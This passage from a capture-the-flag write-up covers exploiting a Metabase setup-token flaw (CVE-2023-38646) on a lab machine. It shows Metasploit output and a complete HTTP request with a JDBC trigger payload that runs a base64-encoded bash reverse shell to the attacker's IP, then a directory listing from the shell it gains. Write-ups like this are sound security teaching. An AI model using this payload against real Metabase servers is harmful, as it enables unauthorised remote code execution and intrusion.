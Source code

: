 ```
msf6 exploit(metabase_setup_token_rce) > rerun
[*] Reloading module...

[*] Started reverse TCP handler on 0.0.0.0:8000 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[*] Sending exploit (may take a few seconds)
[*] Exploit completed, but no session was created.
```

### Third exploit attempt

Got shell adapting the payload from https://github.com/securezeron/CVE-2023-38646/blob/main/CVE-2023-38646-Reverse-Shell.py and sending the request with burp repeater, base64 encoding the reverse shell payload.

```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 13_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/json
Content-Length: 491
Connection: close

{
  "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
  "details": {
    "details": {
      "db": "zip:/app/metabase.jar!/sample-database.db;TRACE_LEVEL_SYSTEM_OUT=0\\;CREATE TRIGGER MMYAJXSA BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtYyAnMDwmMTY2LTtleGVjIDE2Njw+L2Rldi90Y3AvMTAuMTAuMTQuMzcvODAwMDtzaCA8JjE2NiA+JjE2NiAyPiYxNjYn}|{base64,-d}|{bash,-i}')\n$$--=x",
      "advanced-options": false,
      "ssl": true
    },
    "name": "UoZgzIaM4YAm",
    "engine": "h2"
  }
}
```

We get a shell as user `metabase`.



## User

```bash
$ ls -la /
```
```
total 96
drwxr-xr-x    1 root     root          4096 Dec  2 04:49 .
drwxr-xr-x    1 root     root          4096 Dec  2 04:49 ..
-rwxr-xr-x    1 root     root             0 Dec  2 04:49 .dockerenv
drwxr-xr-x    1 root     root          4096 Jun 29 20:40 app
drwxr-xr-x    1 root     root          4096 Jun 29 20:39 bin
drwxr-xr-x    5 root     root           340 Dec  2 04:49 dev
drwxr-xr-x    1 root     root          4096 Dec  2 04:49 etc
drwxr-xr-x    1 root     root          4096 Aug  3 12:16 home
drwxr-xr-x    1 root     root          4096 Jun 14 15:03 lib
drwxr-xr-x    5 root     root          4096 Jun 14 15:03 media
drwxr-xr-x    1 metabase metabase      4096 Aug  3 12:17 metabase.db
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 mnt
```